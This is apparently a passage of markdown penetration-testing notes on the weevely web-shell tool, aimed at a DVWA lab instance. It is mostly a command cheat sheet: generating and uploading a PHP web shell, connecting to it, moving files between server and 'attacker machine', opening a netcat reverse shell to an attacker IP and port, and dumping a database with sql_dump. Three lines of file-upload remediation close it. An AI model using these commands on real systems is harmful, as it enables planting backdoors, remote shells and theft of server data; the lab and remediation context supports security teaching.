 -  weevely
	```
	weevely generate passs_for_file file_save_location/shell.php
	# upload shell.php
	weevely uploaded_file_path password_of_shell_file
	# example 
	weevely http://192.168.30.233/dvwa/hackable/uploads/shell.php 12345
	
	# local_path means attacker mechine path
	# remote_path means server path
	# download file
	file_download -vector file remote_path local_path
	:file_download remote_path/test_file.txt local_path/test_file.txt
	
	# upload file
	file_upload -vector file remote_path local_path
	:file_upload -force local_path/test_file.txt remote_path/file_name.txt


	#backdoor_reversetcp
	backdoor_reversetcp -vector netcat attacker_ip attacker_port 
	
	#sql_dump
	sql_dump -host localhost -lpath local_path/test.txt db_name db_user db_password
	sql_dump -vector mysqldump_sh -host localhost -lpath local_path/test.txt db_name db_user db_password
	
	
	
	```

**remediation of file upload vulnerabilites**
1. Never allow users to upload executables (php, exe ..etc)
2. Check the file AND the file extension.
3. Analyse the uploaded file, recreate it and rename it.
	